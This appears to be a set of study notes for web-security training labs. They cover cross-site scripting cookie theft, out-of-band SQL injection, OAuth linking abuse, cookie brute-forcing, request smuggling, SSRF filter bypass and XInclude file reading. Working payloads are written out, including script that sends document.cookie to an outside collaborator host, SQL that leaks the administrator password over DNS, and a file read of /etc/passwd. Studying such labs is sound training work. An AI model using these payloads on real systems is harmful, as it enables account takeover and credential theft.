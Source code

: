 # Exam Prep Labs

**Exploiting cross-site scripting to steal cookies**

`<img src="1" onerror="window.location='https://BURP-COLLABORATOR-SUBDOMAIN/cookie='+document.cookie">`

or

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Post these payloads in a comment, then obtain the cookie and replace this to gain admin access.

**Blind SQL injection with out-of-band data exfiltration**

Burp Active Scan identifies the TrackingId cookie as being injectible

Cookie: TrackingId=YhaxNa2jasATgGHz'%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20nlmsj%20SYSTEM%20%22http%3a%2f%2f1wy2cf0dycy7ehcocpeua3wi79d31tpxdq0go5.oasti'%7c%7c'[fy.com](http://fy.com/)%2f%22%3e%25nlmsj%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c'

'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % nlmsj SYSTEM "http://1wy2cf0dycy7ehcocpeua3wi79d31tpxdq0go5.oasti'||'fy.com/">%nlmsj;]>'),'/l') from dual)||'

`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

**Forced OAuth profile linking**

Login with social media = OAuth based attack

When linking a social media account using OAuth, there is a /oauth-linking request that includes a code. Intercept this request, copy the code and drop the request so it’s not used.

Load the following in the exploit server:

<iframe src="[https://0a8a0080041920d8c39e66a200870069.web-security-academy.net/oauth-linking?code=BPiIICdObOTAV8iCzGegnxhWHufrlosvT390IyfCidF](https://0a8a0080041920d8c39e66a200870069.web-security-academy.net/oauth-linking?code=BPiIICdObOTAV8iCzGegnxhWHufrlosvT390IyfCidF)"></iframe>

This will force the victim to link their account to your social media profile, as the code is associated to you.

**Brute-forcing a stay-logged-in cookie**

stay-logged in option when logging in

d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw

wiener:51dc30ddc473d43a6011e9ebba6ca770

username:MD5 hash of pw

- Hash: `MD5`
- Add prefix: `carlos:`
- Encode: `Base64-encode`

Add a grep-match rule to flag responses that have the “update email” option

Use Simple List Payload Type

**Exploiting HTTP request smuggling to capture other users' requests**

POST / HTTP/1.1
Host: [0a0e00c30425ea33c2c935fc0050003c.web-security-academy.net](http://0a0e00c30425ea33c2c935fc0050003c.web-security-academy.net/)
Cookie: session=f53lqUGiuNYoeUkf1Q7n3O2zn6JiXW7n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [https://0a0e00c30425ea33c2c935fc0050003c.web-security-academy.net/](https://0a0e00c30425ea33c2c935fc0050003c.web-security-academy.net/)
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 274
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=f53lqUGiuNYoeUkf1Q7n3O2zn6JiXW7n
Content-Type: application/x-www-form-urlencoded
Content-Length: 911

csrf=ZDq330LAbNseA4tASzvN5i2YGXznGaPG&postId=3&name=Carlos+Montoya&email=carlos%[40normal-user.net](http://40normal-user.net/)&website=&comment=t

HTTP Request Smuggler can identify that it is a CL.TE vuln, then build the steps so that the comment is left in the blog post. Make sure the content-length of the smuggled request is accurate.

**SSRF with blacklist-based input filter**

stockApi=http://127.0.0.1/admin

returns:

"External stock check blocked for security reasons”

stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

shorten the notation for localhost, double URL encode “admin”

**SQL injection with filter bypass via XML encoding**

Use Active Scan on the Stock check, identifies Postgresql injection.

Convert/obfuscate payload using XML entities.Highlight input and right-click > Extensions > Hackvertor > Encode > dec_entities/hex_entities.

**Discovering vulnerabilities quickly with targeted scanning**

Send the stock check request to intruder, add the two insertion points and scan. Identifies XML injection via XInclude, which then allows you to identify the payload from previous labs

productId=<foo xmlns:xi="[http://www.w3.org/2001/XInclude](http://www.w3.org/2001/XInclude)"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
